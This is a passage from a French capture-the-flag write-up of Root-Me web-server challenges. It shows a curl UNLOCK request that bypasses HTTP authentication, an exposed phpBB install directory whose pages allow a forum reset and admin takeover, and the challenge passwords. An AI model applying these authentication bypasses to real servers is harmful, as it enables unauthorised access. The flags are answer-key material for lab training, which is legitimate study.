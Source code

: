 Le flag est **HeadersMayBeUseful**.

## 9. HTTP Verb Tampering

En se connectant sur la page, on nous demande un login et mot de passe. En effectuant une requête avec un Verb Tampering `UNLOCK` (`curl --request UNLOCK http://challenge01.root-me.org/web-serveur/ch8/`), on arrive à bypasser l'authentification :

```shell
nicolas@DESKTOP-JOGTTVS:/mnt/c/Users/Nicolas Law Yim Wan$ curl --request UNLOCK http://challenge01.root-me.org/web-serveur/ch8/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html><head>
</head>

<h1>Mot de passe / password : a23e$dme96d3saez$$prap</h1>
</body></html>
```

Le flag est donc **a23e$dme96d3saez$$prap**.

## 10. Install files

En regardant le code de la page, on observe en commenté que le site utilise PHPBB :

```html
<!--  /web-serveur/ch6/phpbb -->
```

En accédant à son dossier d'installation `/phpbb/install/`, on trouve le fichier `install.php` qui contient le flag **karambar**.

```
Bravo, vous venez de decouvrir une des nombreuses failles de phpBB.

Cette faille est en fait un oubli du Webmaster qui aurait du enlever
ces dossiers. Ils contiennent les pages d'installations du forum phpbb.
Ce genre de chose n'existe plus car les développeurs mettent en place des
systèmes de vérification pour faciliter la tâche aux plus têtes en l'air
Ce qu'il faut comprendre par contre c'est qu'on découvre souvent beaucoup de choses
en trifouillant des URL...
Grâce à elles, vous pouvez remettre à zéro le forum, et changer tous les passwords
administrateur, étant donné que vous reinitialisez le forum.
Vous avez donc ensuite un contrôle total du forum !!

Le mot de passe pour valider est : karambar

Bon courage !
```

## 11. Redirection invalide

